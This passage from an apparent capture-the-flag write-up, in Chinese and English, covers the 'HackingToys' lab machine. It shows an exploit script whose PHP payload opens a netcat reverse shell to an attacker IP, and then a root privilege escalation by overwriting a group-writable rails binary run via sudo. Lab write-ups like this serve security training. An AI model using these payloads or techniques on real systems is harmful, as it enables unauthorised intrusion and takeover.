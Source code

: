 ```bash
┌──(kali💀kali)-[~/temp/HackingToys]
└─$ head -n 10 exp.sh                                                               
#!/bin/bash

PAYLOAD="<?php echo '<!--'; system('nc -e /bin/bash 192.168.10.102 2345'); echo '-->';"
FILENAMES="/var/www/html/index.php" # Exisiting file path

HOST=$1
B64=$(echo "$PAYLOAD"|base64)

for FN in $FILENAMES; do
    OUTPUT=$(mktemp)
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202409071157969.png" alt="image-20240907114102351" style="zoom:50%;" />

### 提权 root

```bash
(remote) dodi@hacktoys:/home/dodi$ sudo -l
Matching Defaults entries for dodi on hacktoys:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User dodi may run the following commands on hacktoys:
    (ALL : ALL) NOPASSWD: /usr/local/bin/rvm_rails.sh
(remote) dodi@hacktoys:/home/dodi$ cat /usr/local/bin/rvm_rails.sh
#!/bin/bash
export rvm_prefix=/usr/local
export MY_RUBY_HOME=/usr/local/rvm/rubies/ruby-3.1.0
export RUBY_VERSION=ruby-3.1.0
export rvm_version=1.29.12
export rvm_bin_path=/usr/local/rvm/bin
export GEM_PATH=/usr/local/rvm/gems/ruby-3.1.0:/usr/local/rvm/gems/ruby-3.1.0@global
export GEM_HOME=/usr/local/rvm/gems/ruby-3.1.0
export PATH=/usr/local/rvm/gems/ruby-3.1.0/bin:/usr/local/rvm/gems/ruby-3.1.0@global/bin:/usr/local/rvm/rubies/ruby-3.1.0/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/local/rvm/bin
export IRBRC=/usr/local/rvm/rubies/ruby-3.1.0/.irbrc
export rvm_path=/usr/local/rvm
exec /usr/local/rvm/gems/ruby-3.1.0/bin/rails "$@"
(remote) dodi@hacktoys:/home/dodi$ ls -la /usr/local/rvm/gems/ruby-3.1.0/bin/rails
-rwxrwxr-x 1 root rvm 566 May 20 13:51 /usr/local/rvm/gems/ruby-3.1.0/bin/rails
(remote) dodi@hacktoys:/home/dodi$ cat /etc/group | grep rvm
rvm:x:1002:lidia,root
```

发现前面一个用户可以修改执行文件，尝试修改进行执行shell：https://gtfobins.github.io/gtfobins/ruby/#shell

```bash
(remote) lidia@hacktoys:/opt/app/gadgets$ echo '/bin/bash' > /usr/local/rvm/gems/ruby-3.1.0/bin/rails
```
